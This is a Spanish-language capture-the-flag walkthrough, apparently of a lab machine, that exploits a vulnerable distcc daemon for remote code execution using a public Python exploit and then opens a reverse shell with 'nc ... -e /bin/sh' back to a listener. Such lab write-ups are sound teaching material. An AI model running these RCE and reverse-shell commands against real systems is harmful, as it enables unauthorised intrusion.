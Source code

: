 Buscando por internet parece que esa versión es vulnerable, podemos conseguir RCE aprocechando tareas de compilación. Existe por github un [script en python](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855) - me señalan hasta como ejecutarlo con el ejemplo de máquina Lame -, donde podemos ver el identificador en metaexploit:

```plaintext
This exploit is ported from a public Metasploit exploit code :
		https://www.exploit-db.com/exploits/9915
```

```sh
❯ searchsploit 9915
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                        |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Armadito Antimalware - Backdoor Access/Bypass                                                                                                         | windows/dos/39915.c
DistCC Daemon - Command Execution (Metasploit)                                                                                                        | multiple/remote/9915.rb
```

En el enlace de arriba, *el script principal no funciona para python3*, pero más abajo en un comentario subieron un script para python3 que si que funciona, lo copio y pego a mi máquina. Es del ussuario *hazeyed*.

```sh
❯ python3 otroparadisccd.py -t 10.10.10.3
[*] Connected to remote service

--- BEGIN BUFFER ---

uid=1(daemon) gid=1(daemon) groups=1(daemon)


--- END BUFFER ---

[*] Done.
```

El comando por defecto es **id**, pero podemos meter cualquier otro.

```sh
❯ python3 otroparadisccd.py -t 10.10.10.3 -c "nc 10.10.14.17 443 -e /bin/sh"
[*] Connected to remote service
[!] Socket Timeout
```

Estando en escucha por el puerto 443:

```sh
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.3] 33005
whoami
daemon
```
